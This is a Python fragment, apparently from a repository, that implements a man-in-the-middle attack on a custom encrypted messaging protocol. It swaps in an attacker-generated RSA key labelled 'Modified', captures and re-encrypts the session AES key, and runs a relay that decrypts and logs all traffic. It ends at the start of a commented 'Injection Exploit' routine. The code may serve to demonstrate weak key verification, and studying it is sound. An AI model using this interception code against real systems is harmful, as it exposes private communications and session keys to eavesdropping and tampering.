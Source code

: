 ```python
        s2 = socket(AF_INET, SOCK_STREAM)
        s2.bind(("localhost", IN_PORT_CLIENT))
        s2.listen()
        sock, addr = s2.accept()
        print(f"[CONNECT] Connected: [{addr[0]}]:{addr[1]}")
    except:
        print(f"[CONNECT] Error while accepting incoming connection for the client:")
        traceback.print_exc()
        return

    RSA_KEY = RSA.generate(2048)
    RSA_PUBLIC = RSA_KEY.publickey().export_key()
    RSA_HASH = hashlib.sha512(RSA_PUBLIC).digest()

    print(f"[RSA EXCHANGE] Modified RSA SHA512 Hash: {RSA_HASH}")
    print(f"[RSA EXCHANGE] Modified RSA Public Key: {RSA_PUBLIC}")
    print(f"[RSA EXCHANGE] RSA Private Key: {RSA_KEY.export_key()}")

    sock.sendall(RSA_HASH)
    sock.send(RSA_PUBLIC)

    AES_LOCKED = sock.recv(1024)
    RSA_OBJ = PKCS1_OAEP.new(RSA_KEY)
    AES_KEY = RSA_OBJ.decrypt(AES_LOCKED)

    print(f"[AES EXCHANGE] AES Key: {AES_KEY}")

    SERVER_RSA_OBJ = PKCS1_OAEP.new(RSA.import_key(actual_rsa_key))
    AES_LOCKED = SERVER_RSA_OBJ.encrypt(AES_KEY)
    s.sendall(AES_LOCKED)

    LOCKER = AES.new(AES_KEY, AES.MODE_ECB)

    KEY_TRANSFER = s.recv(1024)
    LOCKED_KEY_TRANSFER = KEY_TRANSFER
    KEY_TRANSFER = LOCKER.decrypt(KEY_TRANSFER)
    KEY_TRANSFER = unpad(KEY_TRANSFER, AES.block_size)
    VERIFY_KEY = KEY_TRANSFER

    print(f"[VERIFY KEY EXCHANGE] Verify Key: {VERIFY_KEY}")

    sock.sendall(LOCKED_KEY_TRANSFER)

    def relay(src, dst):
        cipher = AES.new(AES_KEY, AES.MODE_ECB)
        while True:
            try:
                hmac = src.recv(1024)
                data = src.recv(1024)
                if not data: break
                
                plain = unpad(cipher.decrypt(data), AES.block_size)
                print(f"[COMMUNICATION] DATA: {plain}")
                
                dst.send(hmac)
                dst.send(data)
            except:
                break
    
    # Injection Exploit
    # def relay(src, dst):
    #     cipher = AES.new(AES_KEY, AES.MODE_ECB)
    #     while True:
```